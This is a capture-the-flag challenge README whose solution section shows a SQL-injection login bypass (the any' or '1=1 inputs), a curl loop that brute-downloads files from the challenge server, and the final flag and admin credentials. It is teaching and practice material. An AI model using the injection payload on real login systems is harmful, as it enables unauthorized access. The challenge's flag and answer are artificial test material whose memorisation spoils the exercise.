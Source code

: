 # HTTP_Server

**Description of the Challenge:**
I think there is something hidden on this server... But I don't know how to access it.

## Setup
To start the server:
```$ python start_threaded_server.py [port] admin:ctf_l3t_me_iN```

Server now runs on `localhost:port`. First is the sql-injection part of the challenge:

```$ nc [host] [port] (query.py)```

Once the login is known from the sql injection attack, the challenge can be continued.

## Solution
The participant, let's call him Harry, has to find the key inside the 424 files that he can download after logging into the server. For the Login Harry has to do a SQL Injection. For that he will use the provided script *query.py* and do a SQL-Injection attack as shown in A) under Commands & Scripts. With the correct login, he can continue to downloading files from the server. Those 424 files are stored on the server and can be retrieved by issuing a POST cmd to (SERVER)/files with the parameter *file_number*. Harry could manually download files 1 to 424 through the web page on localhost, which would however take eons, so he has to use curl or a similar tool to automate downloading files 1 to 424. See B) in Commands & Scripts. Now he has all 424 files which all have 37 byte. 423 files have 37 random bytes, 1 file has 37 bytes which is the base64 encoded flag. How will Harry find the right file? By using grep and his intuition that the flag will be base64 encoded. See C) in Commands & Scripts Last, he has to encode that Base64 encoded flag.

------------------ Commands & Scripts ------------------

---------------- A)
```
$ nc 10.84.56.56 36002 // ip-adresse/port vom server muss angepasst werden 
Input username: any' or '1=1
Input password: any' or '1=1
```
---------------- B)
```
#!/bin/bash
for((i=$1; i<=$2; i++)); do
  $(curl -d "file_number=$i" -u "admin:ctf_l3t_me_iN" -o "file_$i" "localhost:8080/files") || continue
done
```
Usage: `$ cd ~/Downloads && sudo bash downloader.sh 1 424`

Notes:
* This *downloader.sh* file comes with the git pull but not with with the CTFd
* It won't be "localhost" for Harry but the IP address of our server. He might also not use curl at all and something else like wget. 
* He also won't know its exactly 424 files, so his script might download some non-existant files which will result in files with a 404 error message inside. 

---------------- C)
```grep "=" file_*```

Usage: `$ (as shown)`

Notes:
* This will show that one file which has the base64 encoded flag inside (base64 has a "=" at the end).

## Flag
THICTF{oh_no_you_found_me}
